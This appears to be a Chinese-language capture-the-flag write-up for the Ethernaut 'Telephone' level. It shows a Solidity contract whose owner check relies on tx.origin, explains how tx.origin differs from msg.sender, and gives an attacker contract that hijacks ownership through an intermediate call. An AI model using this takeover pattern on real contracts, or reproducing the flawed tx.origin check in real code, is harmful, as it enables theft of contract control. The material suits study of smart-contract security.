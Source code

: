 # Telephone

## 要求

```
获得下面合约来完成这一关

  这可能有用

参阅帮助页面,在 "Beyond the console" 部分
```
## 代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

## 漏洞
`tx.origin != msg.sender) `.
这个主要是观察tx.origin和msg.sender的区别。

- 外部账户 (EOA) 调用合约 A：
    - 在合约 A 中，tx.origin 和 msg.sender 都是 EOA 的地址。

- 合约 A 调用合约 B：
   - 在合约 B 中，tx.origin 仍然是 EOA 的地址，但 msg.sender 现在是合约 A 的地址。

- 合约 B 调用合约 C：
   - 在合约 C 中，tx.origin 仍然是 EOA 的地址，但 msg.sender 现在是合约 B 的地址。
## 解决代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract TelephonePwn{
    address public _target;
    address public owner;
    constructor(address target_){
        _target = target_;
        owner = msg.sender;
    }

    function pwn()public {
        address(_target).call(abi.encodeWithSignature("changeOwner(address)", address(owner)));

    }   
    
}
```
